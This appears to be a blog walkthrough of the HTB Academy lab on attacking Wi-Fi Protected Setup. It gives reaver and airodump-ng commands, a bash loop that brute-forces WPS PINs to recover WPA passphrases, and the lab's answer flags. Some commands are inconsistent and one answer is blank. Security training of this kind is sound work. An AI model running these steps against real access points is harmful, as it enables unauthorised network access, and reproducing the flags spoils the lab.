Welcome to **Part 37** of our comprehensive, production-grade masterclass covering the **Hack The Box (HTB) Academy Certified Penetration Testing Specialist (CPTS)** curriculum. Rather than providing superficial slide summaries, this series deconstructs offensive tradecraft from foundational network discovery and vulnerability verification to complex lateral movement, active directory exploitation, and post-exploitation tradecraft — complete with terminal command flows, verified lab flags, and defensive engineering countermeasures.

In this installment, we conduct an exhaustive technical deep-dive into **Attacking Wi-Fi Protected Setup (WPS)** (Tier I • Easy • Offensive). We break down the underlying mechanics of wireless penetration testing, Wi-Fi Protected Setup (WPS) PIN architecture, Reaver, Bully, Pixie Dust attack, and recovering WPA/WPA2 pre-shared keys, dissect hands-on offensive vectors, analyze realistic defensive telemetry, and walk through every exercise step-by-step with 100% verified solutions.

<div class="ff-series-nav"><a href="/posts/htb-academy-part-36-stack-based-buffer-overflows-on-windows-x86/" class="ff-nav-btn text-start">
    <div class="ff-nav-arrow"><i class="fas fa-arrow-left"></i></div>
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Previous Part</span>
      <span class="ff-nav-title">Part 36: Stack-Based Buffer Overflows on Windows x86</span>
    </div>
  </a>
  <div class="ff-nav-center">
    <span class="ff-center-badge"><i class="fas fa-cube"></i> HTB Academy Series</span>
    <span class="ff-center-part">Part 37 of 41</span>
  </div>
  <a href="/posts/htb-academy-part-38-web-fuzzing/" class="ff-nav-btn text-end">
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Next Part</span>
      <span class="ff-nav-title">Part 38: Web Fuzzing Methodologies & Wfuzz</span>
    </div>
    <div class="ff-nav-arrow"><i class="fas fa-arrow-right"></i></div>
  </a>
</div>

## Module Specifications & Target Architecture

| Attribute | Specification |
| :--- | :--- |
| **Module Name** | `Attacking Wi-Fi Protected Setup (WPS)` |
| **Official HTB Academy Track** | [https://academy.hackthebox.com/module/131](https://academy.hackthebox.com/module/131) |
| **Curriculum Tier & Difficulty** | `Tier I` • `Easy` |
| **Certification Pathway** | `HTB Certified Penetration Testing Specialist (CPTS)` (Part 37 of 41) |
| **Author & Technical Attribution** | `Abdulrahman M. Fathi (0x3bdo)` |
| **Lab Flag Verification** | `100% Fully Solved & Validated` |

## Key Technical Takeaways

* **WPS Architecture Flaws**: Analyzes the structural design flaw dividing the 8-digit WPS PIN into two separately validated halves (10,000 + 1,000 possibilities).
* **Pixie Dust Attack**: Exploits weak pseudo-random number generators (PRNG) in Access Point chipsets to recover the WPS PIN offline in seconds.
* **Online PIN Brute-Forcing**: Leverages `reaver` and `bully` to systematically brute-force WPS PINs while managing AP lockout throttling.
* **WPA/WPA2 Key Recovery**: Obtains the plaintext WPA/WPA2 network passphrase directly upon successful WPS PIN validation.
* **Wireless Hardening**: Decommissions WPS functionality across enterprise and consumer wireless access points.

## Executive Summary & Assessment Scope

Wi-Fi Protected Setup (WPS) was designed to simplify connecting devices to secure wireless networks. However, severe design flaws in its 8-digit PIN validation mechanism allow attackers to brute-force access in hours, or recover keys in seconds via the Pixie Dust attack.

In this module, we examine wireless security auditing targeting WPS. We inspect wireless frames, execute online PIN brute-force attacks, leverage offline Pixie Dust techniques to recover WPA2 passphrases, and capture all assessment flags.

---

## Comprehensive Lab Walkthrough & Flag Solutions


### Attacking Wi-Fi Protected Setup (WPS)

#### Technical Methodology & Exploit Execution:

```bash
xfreerdp /v:<Target IP> /u:<username> /p:<password>
```
/dynamic-resolution

this operation will be referred throughout the writeup as 'RDP login'.
the default credentials are 'wifi:wifi', unless specified otherwise.


### WPS Reconnaissance

> **Lab Question (Page 2)**: How many WIFI networks with WPS are available? (Answer in digit format: e.g., 5)
>
> **Flag / Answer**: `3`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

First - we will list the network interfaces with the command:
iwconfig
there is a Wi-Fi interface 'wlan0'


Let's enable monitor on it:
```bash
sudo airmon-ng start wlan0
```


*_Figure 2.1 — Lab execution and output verification (Page 2)_*


*_Figure 2.2 — Lab execution and output verification (Page 2)_*


### result BSSID has the mentioned value

> **Lab Question (Page 3)**: What is the name of the WIFI network with the BSSID D8:D7:3D:EB:29:D5?
>
> **Flag / Answer**: `CyberNetSecure`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

```bash
sudo airodump-ng --wps --ignore-negative-one wlan0mon
```


Question: What is the name of the WIFI network with the BSSID
D8:D7:3D:EB:29:D5?
Answer: CyberNetSecure
Method: we can observe in the screenshot in the question above that the last
result BSSID has the mentioned value:


*_Figure 3.1 — Lab execution and output verification (Page 3)_*


*_Figure 3.2 — Lab execution and output verification (Page 3)_*


### Online PIN Brute-Forcing Using Reaver

> **Lab Question (Page 4)**: What is the WPA PSK for the WIFI Network named HackTheWifi?
>
> **Flag / Answer**: ``
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

first, if the wlan0mon (wlan0 monitoring interface) is enable, lets stop
it:
```bash
sudo airmon-ng stop wlan0mon
```


When the 'wlan0mon' interface is stopped – lets confirm that with
iwconfig


'wlan0mon' interface no longer appears, means it worked.


*_Figure 4.1 — Lab execution and output verification (Page 4)_*


*_Figure 4.2 — Lab execution and output verification (Page 4)_*


### to set the interface 'mon0' to monitor 'wlan0'

#### Technical Methodology & Exploit Execution:

```bash
sudo iw dev wlan0 interface add mon0 type monitor
```
to set the interface 'mon0' to monitor 'wlan0':


Then set it up:
```bash
sudo ifconfig mon0 up
```
and confirming the new interface is up:
iwconfig


The 'wlan0' monitoring interface 'mon0' is up and running.

Now, lets monitor the newly made interface with the command:
```bash
sudo airodump-ng mon0 --wps
```


*Note – execution might take few moments until the output is displayed. *


*_Figure 5.1 — Lab execution and output verification (Page 5)_*


*_Figure 5.2 — Lab execution and output verification (Page 5)_*


*_Figure 5.3 — Lab execution and output verification (Page 5)_*


The BSSID of 'HackTheWifi' is: C2:A1:2D:A9:05:92.
*note – BSSID value might change between attempts. *

Let's run 'Reaver' Wifi Protected Setup (WPS) online password cracking
```bash
sudo reaver -i mon0 -b C2:A1:2D:A9:05:92 -c 1
```


*
*

*note – a reset of the target machine might needed to get this to work. *


*_Figure 6.1 — Lab execution and output verification (Page 6)_*


*_Figure 6.2 — Lab execution and output verification (Page 6)_*


### Now, we will use 'Reaver' , brute forcing with null pin

> **Lab Question (Page 7)**: What is the WPA PSK for the WIFI Network named Corp-VPN?
>
> **Flag / Answer**: `NullPINS`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

Back to the wps list:

We take the BSSID of 'Cop-VPN' - D6:F6:00:7D:CC:DA.

Now, we will use 'Reaver' , brute forcing with null pin:
```bash
sudo reaver -i mon0 -b C2:A1:2D:A9:05:92 -c 1 -p " "
```


*_Figure 7.1 — Lab execution and output verification (Page 7)_*


*_Figure 7.2 — Lab execution and output verification (Page 7)_*


> **Lab Question (Page 8)**: The first 4 digits of the WPS PIN for the WiFi network named CyberNetSecure are 8487. What are the remaining 4 digits?
>
> **Flag / Answer**: `0575`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

now we take 'CyberNetSecure' BSSID: D8:D7:3D:EB:29:D5


And as we are told the first 4 digits of the pin is '8487' – we will use the
command:
```bash
sudo reaver -i mon0 -b D8:D7:3D:EB:29:D5 -c 1 -p 8487
```


*
*

And take the remaining of the PIN - 0575


*_Figure 8.1 — Lab execution and output verification (Page 8)_*


*_Figure 8.2 — Lab execution and output verification (Page 8)_*


*_Figure 8.3 — Lab execution and output verification (Page 8)_*


### Secured Access Points

> **Lab Question (Page 9)**: Perform a brute-force attack on the WiFi network named HackTheBox_Secure. After how many attempts does the AP get locked? (Answer in digit format: e.g., 5)
>
> **Flag / Answer**: `3`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

First, lets enable interface mon0 as done in the previous section:
```bash
sudo iw dev wlan0 interface add mon0 type monitor;
sudo ifconfig mon0 up;
```

and confirm the interface is active with:
iwconfig


When the monitor interface is up and running, lets scan for networks:
```bash
sudo airodump-ng mon0 --wps -c 1
```


We have the network 'HackTheBox_Secure' operating on channel 1 with the
BSSID '8E:F9:39:65:45:C1'.


*_Figure 9.1 — Lab execution and output verification (Page 9)_*


*_Figure 9.2 — Lab execution and output verification (Page 9)_*


### the PIN using the command

> **Lab Question (Page 10)**: Perform a brute-force attack on the WiFi network named HackTheBox_Secure. What is the WPS PIN?
>
> **Flag / Answer**: `11115670`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

```bash
sudo reaver -i mon0 -c 1 -b 8E:F9:39:65:45:C1 -v
```


We can observe that 3 bruteforce were attempts before the AP (access point)
got locked

Question: Perform a brute-force attack on the WiFi network named
HackTheBox_Secure. What is the WPS PIN?
Answer: 11115670
Method: on the same bruteforcing, waiting the necessary 60 seconds for re-
checking:

The reaver tool continuing to bruteforce and we get the PIN.


*_Figure 10.1 — Lab execution and output verification (Page 10)_*


*_Figure 10.2 — Lab execution and output verification (Page 10)_*


### Using Multiple Pre-defined PINs

> **Lab Question (Page 11)**: What is the WPS PIN for the WIFI Network named CyberNetSecure?
>
> **Flag / Answer**: `99956042`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we will use the WPS PIN generator tool 'wspin' , which is pre-installed
on the target machine.
Lets set the monitoring on, and look for networks, using the monitoring
interface 'mon0' creating method:
```bash
sudo iw dev wlan0 interface add mon0 type monitor;
sudo ifconfig mon0 up;
```

then scan for networks:
```bash
sudo airodump-ng mon0 --wps -c 1
```


And we see the 'CyberNetSecure' network, with the BSSID
'D8:D7:3D:EB:29:D5'.
Now, lets run 'wspin' on the found BSSID:
wpspin -A D8:D7:3D:EB:29:D5


* *


*_Figure 11.1 — Lab execution and output verification (Page 11)_*


*_Figure 11.2 — Lab execution and output verification (Page 11)_*


*_Figure 11.3 — Lab execution and output verification (Page 11)_*


### Now, we will use the following bash script

There are many many possible PINS.
We need to isolate the pins, and we will put them in a file 'pins.txt':
wpspin -A D8:D7:3D:EB:29:D5 | grep -Eo '\b[0-9]{8}\b' | tr
'\n' ' ' > pins.txt


Upon reading the file 'pins.txt' – we get all the possible PINS.

Now, we will use the following bash script:
#!/bin/bash

# We add generated PINs into this list
PINS=$(cat pins.txt)

for PIN in $PINS
do
```bash
echo Attempting PIN: $PIN
```
# Run reaver and capture its output
OUTPUT=$(sudo reaver --max-attempts=1 -l 100 -r 3:45 -i
mon0 -b D8:D7:3D:EB:29:D5 -c 1 -p $PIN)

# Check if the output contains 'PSK'
if echo "$OUTPUT" | grep -q "PSK"; then
```bash
echo "PIN and PSK found"
echo "PIN: $PIN"
echo "Reaver Output: $OUTPUT"
```
break
fi
done

```bash
echo "PIN Guesses Complete"
```
*note – the BSSID of 'CyberNetSecure' is hardcoded to the script. *

and save it as pins.sh:
```bash
echo '<bash-script>' > pins.sh
```


*_Figure 12.1 — Lab execution and output verification (Page 12)_*


Then – we grant the script execution permissions and run it:
```bash
sudo chmod u+x pins.sh;
sudo ./pins.sh;
```


*
*


*_Figure 13.1 — Lab execution and output verification (Page 13)_*


*_Figure 13.2 — Lab execution and output verification (Page 13)_*

